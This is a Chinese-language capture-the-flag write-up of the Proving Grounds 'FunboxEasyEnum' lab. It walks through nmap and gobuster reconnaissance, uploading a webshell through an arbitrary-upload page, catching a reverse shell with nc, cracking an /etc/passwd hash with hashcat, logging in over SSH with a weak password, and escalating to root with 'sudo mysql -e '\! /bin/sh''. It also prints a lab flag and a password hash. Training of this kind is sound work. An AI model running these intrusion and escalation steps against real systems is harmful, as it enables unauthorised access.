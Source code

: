 # Proving Grounds->FunboxEasyEnum靶场笔记

### 惯例先扫IP段

```
nmap -sn -v 192.168.152.0/24
```

只扫到了给的IP192.168.152.132 和254

### 之后扫描所有端口（以最低一万的速率扫描端口） 

```
nmap -sT --min-rate 10000 -p- 192.168.152.132
```

发现只开放了22和80

### 对22、80进行针对性扫描

```
sudo nmap -sT -sC -sV -O -p22,80 192.168.152.132 -oA a.txt
-sT 以tcp协议进行扫描
-sC 以nmap默认脚本进行扫描
-sV 探测服务的版本
-O  探测操作系统的版本
-p  指定端口
-oA 对扫描的结果进行全格式输出
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.6 (87%), Linux 2.6.32 (86%), Linux 2.6.32 or 3.10 (86%), Linux 3.5 (86%), Linux 4.4 (86%), Synology DiskStation Manager 5.1 (86%), WatchGuard Fireware 11.8 (86%), Linux 5.3 - 5.4 (86%), Linux 4.8 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.37 seconds
                                                                                                                   
```

### 进行默认脚本扫描

```
sudo nmap --script=vuln -p22,80 192.168.152.132
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|_  /phpmyadmin/: phpMyAdmin
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

Nmap done: 1 IP address (1 host up) scanned in 62.72 seconds
```

### 对扫描结果中的robots.txt、phpmyadmin进行探测

```
 robots.txt就是一个简单地文本
 Allow: Enum_this_Box
 phpMyAdmin就是一个普通的登录页面
 80端口也是一个默认页
```

### 启动gobuster进行目录爆破,再添加后缀名参数，针对特殊后缀再开一个扫描

```
sudo gobuster dir -u http://192.168.152.132/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
sudo gobuster dir -u http://192.168.152.132/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sql,txt,rar,zip,tar
sudo gobuster dir -u http://192.168.228.230/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
```

扫到一个特殊的php 进去看看，是任意文件上传，话不多说，直接上大马

```
/mini.php             (Status: 200) [Size: 3828]
```

![image-20230419110944455](https://s2.loli.net/2023/04/23/PULez2SKRQGrOyt.png)

### 反弹shell

```
sudo nc -nlvp 3242
whoami
cd /var/www/
ls -al
cat local.txt 
068e5be7068b17bf04bc5b2219ab7f90

```

![image-20230419112653338](https://s2.loli.net/2023/04/23/SlXEyeduptWCD4x.png)

![image-20230419113506965](https://s2.loli.net/2023/04/23/35Y8POqA2s9t6VD.png)

### 开始考虑如何提权

cat /etc/passwd 发现了orcale 用户的hash，爆破了一波没结果，find提权也不太行，陷入僵局

```
.\hashcat.exe -a 0 .\rockyou.txt -m 500 $1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0  -o fuck.txt
.\hashcat.exe -a 3 -1 ?d?u?l?s  --increment --increment-min 1 --increment-max 8 -m 500 .\doit.txt  -o fuck.txt

oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```

![image-20230419140627761](C:\Users\anhunsec\Desktop\靶场特训\image\image-20230419140627761.png)

![](C:\Users\anhunsec\Desktop\靶场特训\image\image-20230419135828858.png)

进home目录看看，用户挺多，

![image-20230419145519816](C:\Users\anhunsec\Desktop\靶场特训\image\image-20230419145519816.png)

goat用户目录可以进去，但是没找到有用的信息，有点绝望了，在试试提权，至少先提一个普通用户

```
开始碰弱口令 ssh goat@192.168.176.132  goat 
一发入魂，谁能想到用户名密码都一样
剩下的就简单了
sudo -l 看看当前用户可以用 sudo 执行那些命令
发现有mysql
去这里找下
https://gtfobins.github.io/gtfobins/mysql/#shell
如果允许二进制文件以超级用户身份运行 sudo，它不会放弃提升的特权，可用于访问文件系统、升级或维护特权访问。
sudo mysql -e '\! /bin/sh'
#号出现 over
```

![image-20230419170642268](https://s2.loli.net/2023/04/23/ep5FCdHgaROcqQl.png)
